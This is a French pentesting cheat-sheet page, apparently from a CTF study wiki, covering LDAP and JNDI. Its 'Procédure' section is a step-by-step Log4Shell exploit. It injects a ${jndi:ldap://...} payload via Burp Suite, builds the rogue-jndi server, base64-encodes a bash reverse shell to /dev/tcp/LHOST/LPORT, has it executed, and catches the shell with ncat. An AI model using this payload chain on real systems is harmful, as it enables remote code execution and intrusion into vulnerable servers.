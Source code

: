 <sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](server_procedure.md)</sub>
#LDAP : Lightweight Directory Access Protocol

**PORT PAR DÉFAUT :** 389

**Présentation :** Process d'authentification Windows
- LDAP is the acronym for Lightweight Directory Access Protocol , which is an open, vendor-neutral,
        industry standard application protocol for accessing and maintaining distributed directory information
        services over the Internet or a Network. The default port that LDAP runs on is port 389
-  JNDI is the acronym for the Java Naming and Directory Interface API . By making calls to this API,
        applications locate resources and other program objects. A resource is a program object that provides
        connections to systems, such as database servers and messaging systems

**Procédure :**
- si faille LOG4J : interception [BurpSuite](burp_suite.md), modification du body. ex : *remember ="${jndi:ldap://{IP ATTACKER}/whatever}"*
- installer java et maven
- *git clone https://github.com/veracode-research/rogue-jndi*
- *cd rogue-jndi*
- *mvn package*
- *echo 'bash -c bash -i >&/dev/tcp/**LHOST**/**LPORT** 0>&1' | base64*
-  on garde réponse
-  java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,**BASE64 STRING HERE**}|{base64,-d}|{bash,-i}" --hostname "**LHOST**"
- on écoute avec [ncat](ncat.md)
- on relance la requête avec burpsuite => on passe dans un param la ligne maudite : *${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat}*
- interception ncat => script /dev/null -c bash => et boum